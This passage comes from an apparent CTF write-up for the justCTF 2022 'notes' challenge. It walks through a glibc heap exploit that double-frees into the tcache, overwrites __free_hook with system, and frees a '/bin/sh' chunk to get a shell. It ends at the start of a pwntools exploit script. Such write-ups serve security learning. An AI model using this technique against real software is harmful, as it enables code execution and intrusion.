 ![sameadr](https://github.com/user-attachments/assets/07d6beb3-88eb-490f-a148-6a5bb6f87511)

```
5 - Empty tcache line by mallocing 7 times (0x60)
6 - Overwrite next pointer with __free_hook
```

![freehok](https://github.com/user-attachments/assets/73efc40b-5b9d-4e9c-9219-c6e9c7e6fa27)

__free_hook pointer is 0 by default but when set, the address that hook is pointing to is being called instead of default GLIBC free functionality. This is used for debugging and tracking. 

With knowing that all we have to do is get that allocation into head of the tcache list so when we malloc we can read into free_hook's pointer and change it to an address in libc.

```
7 - Malloc twice
```

![headoflist](https://github.com/user-attachments/assets/675665c0-b5f1-47b8-a722-68ca42f2f805)

All good.

```
8 - Malloc to start reading into the address that __free_hook points to and overwrite it with "system"
```

![freessyt](https://github.com/user-attachments/assets/1e712020-c651-456a-a623-9c0323b5eb3d)

```
9 - Malloc again to write "/bin/sh" when asked for content (for rdi)
10 - Free the allocation with content "/bin/sh" and enjoy your shell :)
```

![flag](https://github.com/user-attachments/assets/27bd8bc8-7ca4-4dcc-a8c9-bb07dc82c57f)

Thanks to the author for this cool challenge! As always, following sources helped me a lot through this:

nobodyisnobody's write up: https://github.com/nobodyisnobody/write-ups/blob/main/justCTF.2022/pwn/notes/working.exploit.py

double free on fastbin: https://book.hacktricks.xyz/binary-exploitation/libc-heap/double-free

malloc hooks: https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks

get the challenge from https://github.com/justcatthefish/justctf-2022/tree/main/challenges/pwn_notes

### Full Exploit
```python

from pwn import *

'''
p = gdb.debug("./notes_patched", gdbscript="""
    continue
""")
'''

# set follow-fork-mode child

p = process("./notes_patched")

# unlimited notes
p.recvuntil(b"to use? (0-10): ")
p.sendline(b"-1")

```